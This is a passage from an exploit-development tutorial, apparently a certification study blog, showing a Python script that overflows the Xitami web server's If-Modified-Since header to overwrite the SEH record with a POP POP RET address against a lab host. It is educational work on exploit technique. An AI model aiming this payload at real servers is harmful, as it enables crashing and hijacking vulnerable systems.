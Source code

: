 ![](/assets/images/CTP/xitamipartial.JPG)

So we are almost there. We get a value of `4444f584` and we need `0044f584`. I couldn't immediately tell where that extra `44` byte came from but when I looked at the stack, it became apparent that it's from our `D` buffer! 

![](/assets/images/CTP/dbuffer.JPG)

Let's delete our `D` buffer from our payload and see what happens.
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "CCCC"

#PO @ 304
crash = "A" * 304
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

Resending this payload gets us our correct `POP POP RET` address overwritten into the current SEH!

![](/assets/images/CTP/xitamiwhoo.JPG)

![](/assets/images/CTP/xitaminoD.JPG)


### Why does this work? 

Well, let's see what the address is if we don't overwrite any part of it. Let's comment out our `seh` variable and just send the payload that crashes the application. 
